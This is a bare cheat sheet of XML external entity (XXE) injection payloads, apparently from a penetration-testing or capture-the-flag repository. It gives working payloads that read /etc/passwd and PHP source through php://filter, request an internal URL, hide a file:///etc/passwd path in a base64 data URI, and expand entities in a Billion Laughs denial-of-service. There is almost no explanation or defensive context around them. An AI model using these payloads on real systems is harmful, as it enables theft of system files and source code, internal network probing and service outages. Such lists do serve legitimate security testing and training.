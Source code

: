# XML Injection


### Read etc/passwd without encoding
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<post>
	<poster>vbvebre</poster>
	<content>&xxe;</content>
</post>
```

### Read a file and base64 encode it for display

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY c SYSTEM "php://filter/read=convert.base64-encode/resource=view_order.php">
]>
<order>
    <item>
        <name>&c;</name>
        <amount>14</amount>
    </item>
</order>
```

### Read a file from a URL 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1/secret"> ]>

<post>
	<poster>vbvebre</poster>
	<content>&xxe;</content>
</post>
```


### Read a python file

```xml
<xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:feed.py'>]>
<test>
<Author>&test;</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```

### Base64 Encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### Billion Laugh Attack
```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### PHP Wrapper
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

